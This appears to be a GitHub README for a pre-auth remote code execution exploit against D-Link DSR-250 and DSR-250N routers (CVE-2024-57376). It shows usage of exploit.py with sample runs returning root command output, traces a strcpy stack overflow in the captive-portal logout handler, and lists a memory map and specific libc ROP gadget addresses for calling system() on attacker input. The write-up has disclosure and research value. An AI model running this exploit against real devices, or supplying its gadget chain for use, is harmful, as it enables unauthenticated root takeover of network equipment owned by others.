

# CVE-2024-57376

Pre-auth remote code execution exploit for D-Link DSR-250 and DSR-250N

Security advisory: https://supportannouncement.us.dlink.com/security/publication.aspx?name=SAP10415

## Usage

```
$ python3 exploit.py   
usage: <host> <port> <command>
```

### Example

```
$ python3 exploit.py 192.168.1.1 443 id
[+] fingerprint
    device: DSR-250N
    year  : 2021
b'HTTP/1.1 200 OK\r\nContent-Length: 24\r\nDate: Thu, 22 Dec 2022 11:50:49 GMT\r\nServer: Light Weight Web Server\r\n\r\nuid=0(root) gid=0(root)\n'
HTTP/1.1 200 OK
Content-Length: 24
Date: Thu, 22 Dec 2022 11:50:49 GMT
Server: Light Weight Web Server

uid=0(root) gid=0(root)
```

```
$ python3 exploit.py 192.168.1.1 443 'cat /pfrm2.0/etc/dlink_version'
[+] fingerprint
    device: DSR-250N
    year  : 2021
b'HTTP/1.1 200 OK\r\nContent-Length: 12\r\nDate: Thu, 22 Dec 2022 11:57:35 GMT\r\nServer: Light Weight Web Server\r\n\r\n3.17B901C_WW'
HTTP/1.1 200 OK
Content-Length: 12
Date: Thu, 22 Dec 2022 11:57:35 GMT
Server: Light Weight Web Server

3.17B901C_WW
```

## Vulnerability

### Stack Buffer Overflow

It’s a `duaCP.logout` function code which is called for logout.

```lua
function duaCP.logout (cgiparams)
    local extCpResult, clientMac, clientIp, authenticatorIp, apMac, apIp, vendor, 
           ssid, deviceType, vlan, pageId, returnUrl, authSuccessUrl, 
           returnLogoutUrl, notifyUrl, sessionRandom, hash, token

    local request = ""

    extCpResult       = cgiparams.externalCpResult
    clientMac         = cgiparams.clientMac
    clientIp          = cgiparams.clientIp
    authenticatorIp   = cgiparams.authenticatorIp
    apMac             = cgiparams.apMac
    apIp              = cgiparams.apIp
    vendor            = cgiparams.vendor
    ssid              = cgiparams.ssid
    deviceType        = cgiparams.deviceType
    vlan              = cgiparams.vlan
    pageId            = cgiparams.pageIndex
    returnUrl         = cgiparams.returnUrl
    authSuccessUrl    = cgiparams.authenticationSuccessUrl
    returnLogoutUrl   = cgiparams.returnLogoutUrl
    notifyUrl         = cgiparams.notifyUrl
    sessionRandom     = cgiparams.sessionRandom
    hash              = cgiparams.hash
    token             = db.getAttribute("cpExtWebServer", "_ROWID_", "1", "token")

  
    local status, reason

  reason = "success"
    -- validate hash first
    if (hashValidate (authenticatorIp, clientMac, token, sessionRandom, hash) == "ERROR") then
        -- respond to DUA with failure result so that user will be shown login
        -- page
        reason = "failure"
    end
    
    status, clientMac, clientIp = duaCP.parse_logoutInfo (extCpResult)
    
    if (status == "ERROR") then
        reason = "failure"
    end
    
    -- redirect to DUA
    duaCP.logoutProcess (cgiparams, reason, token)
  
end
```

It calls:

1. `hashValidate`
2. `duaCP.parse_logoutInfo`
3. `duaCP.logoutProcess`

The route to vulnerable code is `duaCP.parse_logoutInfo`. It uses `extCpResult`, which is a user input, as a prameter.

Here’s a `duaCP.parse_logoutInfo` code.

```lua
function duaCP.parse_logoutInfo (extCpResult)
    local status       = "OK"

  -- process the extCpResult
  status, clientMac, clientIp = captivePortalLib.duaLogoutInfoGet (extCpResult)

  if (status == "1" or tonumber (status) == 1) then
      return "ERROR"
  end

  clientMac = clientMac:gsub("%-", "%:")
    
    return status, clientMac, clientIp

end
```

It calls `captivePortalLib.duaLogoutInfoGet`. It uses `extCpResult` as a parameter directly. The code of it is defined in a shared library, *captivePortalLib.so* 



`lua_tolstring` returns string pointer of `extCpResult` and `strcpy` is called, which has a local variable as a parameter. It’s clearly a stack buffer overflow. Now, we have to chain ROP gadgets.

There’re some limits because the vulnerability is triggered by `strcpy`. We can’t enter NULL bytes.

Here’s a memory map: 

```
00008000-0000a000 r-xp 00000000 1f:03 3106       /pfrm2.0/bin/cgi
00011000-00012000 rwxp 00001000 1f:03 3106       /pfrm2.0/bin/cgi
00012000-001ff000 rwxp 00000000 00:00 0          [heap]
40000000-40020000 r-xp 00000000 00:01 1963       /lib/ld-2.8.so
40020000-40027000 rwxp 00000000 00:00 0 
40027000-40028000 r-xp 0001f000 00:01 1963       /lib/ld-2.8.so
40028000-40029000 rwxp 00020000 00:01 1963       /lib/ld-2.8.so
40029000-4002a000 rwxp 00000000 00:00 0 
4002c000-400cf000 r-xp 00000000 00:01 1971       /lib/libm-2.8.so
400cf000-400d6000 ---p 000a3000 00:01 1971       /lib/libm-2.8.so
400d6000-400d7000 r-xp 000a2000 00:01 1971       /lib/libm-2.8.so
400d7000-400d8000 rwxp 000a3000 00:01 1971       /lib/libm-2.8.so
400d8000-400dc000 r-xp 00000000 00:01 1969       /lib/libdl-2.8.so
400dc000-400e3000 ---p 00004000 00:01 1969       /lib/libdl-2.8.so
400e3000-400e4000 r-xp 00003000 00:01 1969       /lib/libdl-2.8.so
400e4000-400e5000 rwxp 00004000 00:01 1969       /lib/libdl-2.8.so
400e8000-4010c000 r-xp 00000000 1f:03 2092       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-lua.so
4010c000-40113000 ---p 00024000 1f:03 2092       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-lua.so
40113000-40114000 rwxp 00023000 1f:03 2092       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-lua.so
40114000-40117000 r-xp 00000000 1f:03 1975       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-umi.so
40117000-4011e000 ---p 00003000 1f:03 1975       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-umi.so
4011e000-4011f000 rwxp 00002000 1f:03 1975       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-umi.so
40120000-4012c000 r-xp 00000000 1f:03 2064       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-adaptos.so
4012c000-40133000 ---p 0000c000 1f:03 2064       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-adaptos.so
40133000-40134000 rwxp 0000b000 1f:03 2064       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-adaptos.so
40134000-40135000 rwxp 00000000 00:00 0 
40138000-4013e000 r-xp 00000000 00:01 1983       /lib/librt-2.8.so
4013e000-40145000 ---p 00006000 00:01 1983       /lib/librt-2.8.so
40145000-40146000 r-xp 00005000 00:01 1983       /lib/librt-2.8.so
40146000-40147000 rwxp 00006000 00:01 1983       /lib/librt-2.8.so
40148000-4015d000 r-xp 00000000 00:01 1981       /lib/libpthread-2.8.so
4015d000-40164000 ---p 00015000 00:01 1981       /lib/libpthread-2.8.so
40164000-40165000 r-xp 00014000 00:01 1981       /lib/libpthread-2.8.so
40165000-40166000 rwxp 00015000 00:01 1981       /lib/libpthread-2.8.so
40166000-40168000 rwxp 00000000 00:00 0 
40168000-40174000 r-xp 00000000 00:01 1970       /lib/libgcc_s.so.1
40174000-4017b000 ---p 0000c000 00:01 1970       /lib/libgcc_s.so.1
4017b000-4017c000 rwxp 0000b000 00:01 1970       /lib/libgcc_s.so.1
4017c000-402b4000 r-xp 00000000 00:01 1966       /lib/libc-2.8.so
402b4000-402b6000 r-xp 00138000 00:01 1966       /lib/libc-2.8.so
402b6000-402b7000 rwxp 0013a000 00:01 1966       /lib/libc-2.8.so
402b7000-402ba000 rwxp 00000000 00:00 0 
402bc000-402bf000 r-xp 00000000 1f:03 1946       /pfrm2.0/lib/lua/5.1/lfs.so.1.2.1
402bf000-402c6000 ---p 00003000 1f:03 1946       /pfrm2.0/lib/lua/5.1/lfs.so.1.2.1
402c6000-402c7000 rwxp 00002000 1f:03 1946       /pfrm2.0/lib/lua/5.1/lfs.so.1.2.1
402c8000-402cc000 r-xp 00000000 1f:03 1948       /pfrm2.0/lib/lua/5.1/luasql/sqlite3.so
402cc000-402d3000 ---p 00004000 1f:03 1948       /pfrm2.0/lib/lua/5.1/luasql/sqlite3.so
402d3000-402d4000 rwxp 00003000 1f:03 1948       /pfrm2.0/lib/lua/5.1/luasql/sqlite3.so
402d4000-40357000 r-xp 00000000 1f:03 1974       /pfrm2.0/lib/libsqlite3.so.0.8.6
40357000-4035e000 ---p 00083000 1f:03 1974       /pfrm2.0/lib/libsqlite3.so.0.8.6
4035e000-40360000 rwxp 00082000 1f:03 1974       /pfrm2.0/lib/libsqlite3.so.0.8.6
40360000-40362000 r-xp 00000000 1f:03 1934       /pfrm2.0/lib/lua/5.1/loginLib.so
40362000-40369000 ---p 00002000 1f:03 1934       /pfrm2.0/lib/lua/5.1/loginLib.so
40369000-4036a000 rwxp 00001000 1f:03 1934       /pfrm2.0/lib/lua/5.1/loginLib.so
4036c000-4053c000 r-xp 00000000 1f:03 2137       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-klite.so
4053c000-4055a000 rwxp 001d0000 1f:03 2137       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-klite.so
4055a000-4055d000 rwxp 00000000 00:00 0 
40560000-405b0000 r-xp 00000000 1f:03 2089       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-sslim.so
405b0000-405b6000 rwxp 00050000 1f:03 2089       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-sslim.so
405b8000-405b9000 r-xp 00000000 1f:03 1935       /pfrm2.0/lib/lua/5.1/loginLuaLib.so
405b9000-405c1000 ---p 00001000 1f:03 1935       /pfrm2.0/lib/lua/5.1/loginLuaLib.so
405c1000-405c2000 rwxp 00001000 1f:03 1935       /pfrm2.0/lib/lua/5.1/loginLuaLib.so
405c4000-405c5000 r-xp 00000000 1f:03 1968       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-logging.so
405c5000-405cc000 ---p 00001000 1f:03 1968       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-logging.so
405cc000-405cd000 rwxp 00000000 1f:03 1968       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-logging.so
405d0000-405d2000 r-xp 00000000 1f:03 1945       /pfrm2.0/lib/lua/5.1/timeLib.so
405d2000-405d9000 ---p 00002000 1f:03 1945       /pfrm2.0/lib/lua/5.1/timeLib.so
405d9000-405da000 rwxp 00001000 1f:03 1945       /pfrm2.0/lib/lua/5.1/timeLib.so
405dc000-405de000 r-xp 00000000 1f:03 2125       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-time.so
405de000-405e5000 ---p 00002000 1f:03 2125       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-time.so
405e5000-405e6000 rwxp 00001000 1f:03 2125       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-time.so
405e8000-405eb000 r-xp 00000000 1f:03 1929       /pfrm2.0/lib/lua/5.1/kliteLib.so
405eb000-405f2000 ---p 00003000 1f:03 1929       /pfrm2.0/lib/lua/5.1/kliteLib.so
405f2000-405f3000 rwxp 00002000 1f:03 1929       /pfrm2.0/lib/lua/5.1/kliteLib.so
405f4000-405f8000 r-xp 00000000 1f:03 1947       /pfrm2.0/lib/lua/5.1/captivePortalLib.so
405f8000-405ff000 ---p 00004000 1f:03 1947       /pfrm2.0/lib/lua/5.1/captivePortalLib.so
405ff000-40600000 rwxp 00003000 1f:03 1947       /pfrm2.0/lib/lua/5.1/captivePortalLib.so
40600000-40616000 r-xp 00000000 1f:03 2133       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-radius.so
40616000-4061e000 ---p 00016000 1f:03 2133       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-radius.so
4061e000-4061f000 rwxp 00016000 1f:03 2133       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-radius.so
40620000-40645000 r-xp 00000000 1f:03 1920       /pfrm2.0/lib/auth/libldap-2.3.so.0.2.26
40645000-4064d000 ---p 00025000 1f:03 1920       /pfrm2.0/lib/auth/libldap-2.3.so.0.2.26
4064d000-4064e000 rwxp 00025000 1f:03 1920       /pfrm2.0/lib/auth/libldap-2.3.so.0.2.26
40650000-40658000 r-xp 00000000 1f:03 1916       /pfrm2.0/lib/auth/liblber-2.3.so.0.2.26
40658000-4065f000 ---p 00008000 1f:03 1916       /pfrm2.0/lib/auth/liblber-2.3.so.0.2.26
4065f000-40660000 rwxp 00007000 1f:03 1916       /pfrm2.0/lib/auth/liblber-2.3.so.0.2.26
40660000-40701000 r-xp 00000000 1f:03 2122       /pfrm2.0/lib/libkrb5.so.3.3
40701000-40709000 ---p 000a1000 1f:03 2122       /pfrm2.0/lib/libkrb5.so.3.3
40709000-4070e000 rwxp 000a1000 1f:03 2122       /pfrm2.0/lib/libkrb5.so.3.3
40710000-4073b000 r-xp 00000000 1f:03 1870       /pfrm2.0/lib/libk5crypto.so.3.1
4073b000-40743000 ---p 0002b000 1f:03 1870       /pfrm2.0/lib/libk5crypto.so.3.1
40743000-40744000 rwxp 0002b000 1f:03 1870       /pfrm2.0/lib/libk5crypto.so.3.1
40744000-40745000 rwxp 00000000 00:00 0 
40748000-4074a000 r-xp 00000000 1f:03 2065       /pfrm2.0/lib/libcom_err.so.3.0
4074a000-40751000 ---p 00002000 1f:03 2065       /pfrm2.0/lib/libcom_err.so.3.0
40751000-40752000 rwxp 00001000 1f:03 2065       /pfrm2.0/lib/libcom_err.so.3.0
40754000-4075a000 r-xp 00000000 1f:03 1874       /pfrm2.0/lib/libkrb5support.so.0.1
4075a000-40762000 ---p 00006000 1f:03 1874       /pfrm2.0/lib/libkrb5support.so.0.1
40762000-40763000 rwxp 00006000 1f:03 1874       /pfrm2.0/lib/libkrb5support.so.0.1
40764000-40768000 r-xp 00000000 1f:03 1897       /pfrm2.0/lib/libspopc-0.10n.so
40768000-4076f000 ---p 00004000 1f:03 1897       /pfrm2.0/lib/libspopc-0.10n.so
4076f000-40770000 rwxp 00003000 1f:03 1897       /pfrm2.0/lib/libspopc-0.10n.so
40770000-4077a000 r-xp 00000000 1f:03 2121       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-x509.so
4077a000-40781000 ---p 0000a000 1f:03 2121       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-x509.so
40781000-40782000 rwxp 00009000 1f:03 2121       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-x509.so
40784000-40788000 r-xp 00000000 1f:03 1910       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-auth.so
40788000-4078f000 ---p 00004000 1f:03 1910       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-auth.so
4078f000-40790000 rwxp 00003000 1f:03 1910       /pfrm2.0/lib/libarmarm-none-linux-gnueabi-auth.so
40790000-407a1000 r-xp 00000000 00:01 1982       /lib/libresolv-2.8.so
407a1000-407a9000 ---p 00011000 00:01 1982       /lib/libresolv-2.8.so
407a9000-407aa000 r-xp 00011000 00:01 1982       /lib/libresolv-2.8.so
407aa000-407ab000 rwxp 00012000 00:01 1982       /lib/libresolv-2.8.so
407ab000-407ad000 rwxp 00000000 00:00 0 
407b0000-407b4000 r-xp 00000000 1f:03 1942       /pfrm2.0/lib/lua/5.1/validationsLuaLib.so
407b4000-407bb000 ---p 00004000 1f:03 1942       /pfrm2.0/lib/lua/5.1/validationsLuaLib.so
407bb000-407bc000 rwxp 00003000 1f:03 1942       /pfrm2.0/lib/lua/5.1/validationsLuaLib.so
407bc000-407bf000 r-xp 00000000 1f:03 1950       /pfrm2.0/lib/lua/5.1/x509Lib.so
407bf000-407c7000 ---p 00003000 1f:03 1950       /pfrm2.0/lib/lua/5.1/x509Lib.so
407c7000-407c8000 rwxp 00003000 1f:03 1950       /pfrm2.0/lib/lua/5.1/x509Lib.so
407c8000-407ca000 r-xp 00000000 1f:03 1953       /pfrm2.0/lib/lua/5.1/externalAuthLib.so
407ca000-407d1000 ---p 00002000 1f:03 1953       /pfrm2.0/lib/lua/5.1/externalAuthLib.so
407d1000-407d2000 rwxp 00001000 1f:03 1953       /pfrm2.0/lib/lua/5.1/externalAuthLib.so
beadb000-beaf0000 rw-p 00000000 00:00 0          [stack]
```

It’s impossible to use code address and heap address. So we have to use shared library address.

After some digging, I found useful gadgets on libc.

```
0x00116734 : pop {r0, r1, r2, r3, pc};
0x000ff0e8 : mov r0, sp ; blx r3
```

Now, I can enter my input in `r0`, and call arbitrary code by `r3`. If we enter the address of `system` function in `r3`, the `system(r0)` will be executed. Now we can execute the arbitary command line.
